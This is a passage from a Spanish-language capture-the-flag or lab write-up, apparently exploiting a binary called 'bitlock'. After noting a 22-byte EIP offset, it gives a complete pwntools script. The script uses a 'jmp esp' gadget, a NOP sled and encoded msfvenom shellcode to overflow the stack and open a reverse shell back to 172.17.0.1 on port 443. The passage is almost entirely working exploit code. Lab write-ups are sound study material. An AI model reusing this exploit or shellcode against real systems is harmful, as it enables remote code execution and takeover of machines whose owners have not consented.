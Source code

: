 ![image](https://github.com/user-attachments/assets/c2c14418-cc24-4ef5-9e70-5e21efabafbe)

Son 22 bytes. Ahora hacemos el script final, para enviar un shellcode a la máquina objetivo y que al ejecutarlo nos envie una reverse shell:

```python
#!/usr/bin/python3

from pwn import *

def main():
    
    target_ip = str(sys.argv[1])
    target_port = int(sys.argv[2])

    filename = "../content/bitlock"

    elf = context.binary = ELF(filename, checksec=False)
    context.log_level = "error"

    eip_offset = 22

    # ropper --file "bitlock" --search "jmp esp"
    jmp_esp = next(elf.search(asm("jmp esp")))

    
    # msfvenom -p linux/x86/shell_reverse_tcp --platform linux -a x86 LHOST=172.17.0.1 LPORT=443 -f c -e x86/shikata_ga_nai
    shellcode = (b"\xd9\xca\xd9\x74\x24\xf4\x5e\x31\xc9\xb8\x1d\xf2\xd4\x1f"
    b"\xb1\x12\x31\x46\x17\x83\xee\xfc\x03\x5b\xe1\x36\xea\x52"
    b"\xde\x40\xf6\xc7\xa3\xfd\x93\xe5\xaa\xe3\xd4\x8f\x61\x63"
    b"\x87\x16\xca\x5b\x65\x28\x63\xdd\x8c\x40\xd8\x0c\x6f\x91"
    b"\x48\x2d\x6f\x90\x33\xb8\x8e\x22\x25\xeb\x01\x11\x19\x08"
    b"\x2b\x74\x90\x8f\x79\x1e\x45\xbf\x0e\xb6\xf1\x90\xdf\x24"
    b"\x6b\x66\xfc\xfa\x38\xf1\xe2\x4a\xb5\xcc\x65")

    payload = flat({
        eip_offset: [

            jmp_esp,
            b"\x90"*16,
            shellcode
        ]
    })


    r = remote(sys.argv[1], sys.argv[2])

    r.sendline(payload)

    r.wait()

if __name__ == '__main__':

    main()
```
